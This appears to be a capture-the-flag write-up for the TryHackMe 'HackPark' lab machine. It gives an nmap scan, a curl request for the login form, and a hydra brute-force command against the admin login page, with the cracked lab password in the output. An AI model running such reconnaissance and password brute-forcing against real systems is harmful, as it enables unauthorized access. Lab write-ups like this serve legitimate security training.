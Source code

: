 # hackpark THM

>Nathaniel Mickel | 13 Sept, 2021

```bash
export IP=10.10.98.247
```

# Nmap 7.91 scan initiated Mon Sep 13 08:28:38 2021 as: nmap -sV -sC -oN nmap/initial 10.10.98.247
Nmap scan report for 10.10.98.247
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2021-09-13T13:30:17+00:00
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-09-12T13:24:01
|_Not valid after:  2022-03-14T13:24:01
|_ssl-date: 2021-09-13T13:30:19+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# Task 1
```
curl -s http://10.10.98.247/Account/login.aspx?ReturnURL=/admin/ | grep "form method" 
```
# Task 2
```
hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.98.247 http-post-form "/Account/login.aspx?ReturnURL=/admin /:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" 
[80][http-post-form] host: 10.10.79.198   login: admin   password: 1qaz2wsx
```

# Task 3

